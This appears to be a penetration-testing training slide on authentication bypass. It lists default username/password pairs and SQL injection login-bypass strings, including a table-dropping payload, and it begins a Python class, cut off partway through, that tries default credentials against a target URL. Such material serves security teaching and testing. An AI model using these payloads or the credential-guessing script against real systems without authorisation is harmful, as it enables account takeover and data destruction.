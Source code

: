 # Authentication and Session Management

<div class="grid grid-cols-2 gap-8">

<div>

## 🔐 Authentication Bypass Testing

### 🎯 Common Bypass Techniques
```yaml
Authentication Weaknesses:
  Default Credentials:
    - admin/admin, admin/password
    - root/root, administrator/password
    - guest/guest, user/user

  SQL Injection Bypass:
    - admin' OR '1'='1' --
    - admin' /*comment*/ OR '1'='1'
    - admin'; DROP TABLE users; --

  Logic Flaws:
    - Parameter manipulation
    - Request method changes
    - Race conditions
    - State manipulation

  Brute Force Vulnerabilities:
    - No rate limiting
    - Weak lockout policies
    - Predictable passwords
    - Account enumeration
```

### 🛠️ Testing Tools and Scripts
```python
# Authentication testing framework
import requests
from itertools import product
import time

class AuthenticationTester:
    def __init__(self, target_url, username_list, password_list):
        self.target_url = target_url
        self.usernames = username_list
        self.passwords = password_list
        self.session = requests.Session()
        self.successful_logins = []
    
    def test_default_credentials(self):
        """Test common default credentials"""
        default_creds = [
            ('admin', 'admin'),
            ('admin', 'password'),
            ('root', 'root'),
            ('administrator', 'administrator'),
            ('guest', 'guest'),
            ('test', 'test')
        ]
        
        print("[*] Testing default credentials...")
        
```